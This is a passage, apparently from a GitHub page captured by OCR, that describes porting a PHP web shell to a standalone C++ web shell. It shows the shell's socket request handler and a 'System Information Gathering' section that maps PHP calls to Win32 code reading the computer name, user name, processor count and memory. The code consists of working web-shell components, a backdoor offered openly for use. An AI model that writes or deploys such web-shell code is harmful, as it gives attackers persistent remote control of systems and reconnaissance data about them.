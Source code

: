 ```cpp
        
        serverThread = std::thread(&StandaloneCppWebShell::serverLoop, this);
        return true;
    }
    
    void handleClient(SOCKET clientSocket) {
        char buffer[8192];
        recv(clientSocket, buffer, sizeof(buffer) - 1, 0);
        
        std::string request(buffer);
        std::string response = processRequest(request);
        
        send(clientSocket, response.c_str(), response.length(), 0);
        closesocket(clientSocket);
    }
};
```

### 5. System Information Gathering

**PHP Equivalent:**
```php
phpinfo();
$_SERVER['HTTP_HOST'];
get_current_user();
```

**C++ Implementation:**
```cpp
std::map<std::string, std::string> getSystemInfo() {
    std::map<std::string, std::string> info;
    
    char computerName[MAX_COMPUTERNAME_LENGTH + 1];
    DWORD size = sizeof(computerName);
    if (GetComputerNameA(computerName, &size)) {
        info["Computer_Name"] = computerName;
    }
    
    char userName[UNLEN + 1];
    size = sizeof(userName);
    if (GetUserNameA(userName, &size)) {
        info["User_Name"] = userName;
    }
    
    SYSTEM_INFO sysInfo;
    GetSystemInfo(&sysInfo);
    info["Processor_Count"] = std::to_string(sysInfo.dwNumberOfProcessors);
    
    MEMORYSTATUSEX memInfo;
    memInfo.dwLength = sizeof(MEMORYSTATUSEX);
    if (GlobalMemoryStatusEx(&memInfo)) {
        info["Total_Physical_Memory"] = std::to_string(memInfo.ullTotalPhys / (1024 * 1024)) + " MB";
    }
    
    return info;
}
```

